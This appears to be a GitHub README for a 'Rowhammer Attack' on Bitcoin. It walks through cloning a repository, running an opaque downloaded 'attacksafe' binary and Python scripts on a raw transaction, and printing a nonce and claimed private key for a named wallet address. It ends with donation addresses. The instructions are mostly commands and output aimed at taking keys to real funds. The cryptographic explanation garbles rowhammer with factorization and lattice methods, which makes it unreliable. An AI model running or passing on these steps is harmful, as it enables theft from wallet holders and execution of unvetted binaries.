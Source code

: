# Rowhammer Attack

---

The biggest cryptographic strength of the Bitcoin cryptocurrency is a computational method in discrete mathematics that takes the factorization problem of large integers and the hidden number problem (HNP) in the Bitcoin ECDSA signature transaction as a basis.
Rowhammer Attack on Bitcoin, allows us to efficiently find all zeros for normalized polynomials modulo a certain value, and we adapt this method to the ECDSA signature algorithm, more precisely to critically vulnerable transactions in the Bitcoin blockchain.
We will apply ECDSA signature differential failure analysis and obtain a private key from a transaction for different Bitcoin Wallets.



---

* Tutorial: https://youtu.be/lfYPcXPzLjE
* Tutorial: https://cryptodeep.ru/rowhammer-attack

---

# Commands:





    git clone https://github.com/demining/CryptoDeepTools.git


    cd CryptoDeepTools/15RowhammerAttack/

    ls

    wget https://bootstrap.pypa.io/pip/2.7/get-pip.py

    sudo python2 get-pip.py

    pip2 install -r requirements.txt


---


## With a critical vulnerability, we can get the private key to the Bitcoin Wallet:


https://btc1.trezor.io/address/1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o

https://btc1.trezor.io/tx/3c79fae7e31a32e12d55f2e0c91d88e11d6f16faa35f1ec85bd7d768a1c18846


---



    RawTX = 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000


    python2 breakECDSA.py 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000


---


R = 0x331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc67

S = 0x0bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff4

Z = 0x9d86bea51385f6a56835d0148e7f23a353605bab339127e800112307e6727d2d


---

# To implement the attack and get the secret key, we will use the software: “ATTACKSAFE SOFTWARE” [ https://attacksafe.ru/software ]


---

    chmod +x attacksafe


---

    ./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt


---



## We launched this attack from -tool rowhammer_attack and the result is saved to the file SecretKey.txt


    cat SecretKey.txt


    Deployments ECDSA:

    SecretKey = 0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d


    RawTX = 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000


---


## We see the inscription "Deployments ECDSA" which means a critical vulnerability in the Bitcoin blockchain transaction

SecretKey value in HEX format, this is our secret key "K" (NONCE):

K=0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d


---


    pip3 install ECPy


    python3 point2gen.py 0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d



    R          =    0x331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc67
    point2gen  =   (0x331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc67 , 0xc6efa8de714dd94d7b659d8935aa9036ada6a2b541a03360901fc195fd0e2cf6)


---


# ALL CORRECT!


K=0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d

## Now knowing the secret key, we can get the private key to the Bitcoin Wallet: 1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o


The script: calculate.py will calculate the private key using the formula:
Privkey = ((((S * K) - Z) * modinv(R,N)) % N)


---


    python3 calculate.py


---


## PrivKey = aa35fda8f16d06ae02bdcf671e03035795a0b0ecbdae45098928f6587016a932



---


---

* Tutorial: https://youtu.be/lfYPcXPzLjE
* Tutorial: https://cryptodeep.ru/rowhammer-attack

---


|  | Donation Address |
| --- | --- |
| ♥ __BTC__ | 1Lw2kh9WzCActXSGHxyypGLkqQZfxDpw8v |
| ♥ __ETH__ | 0xaBd66CF90898517573f19184b3297d651f7b90bf |
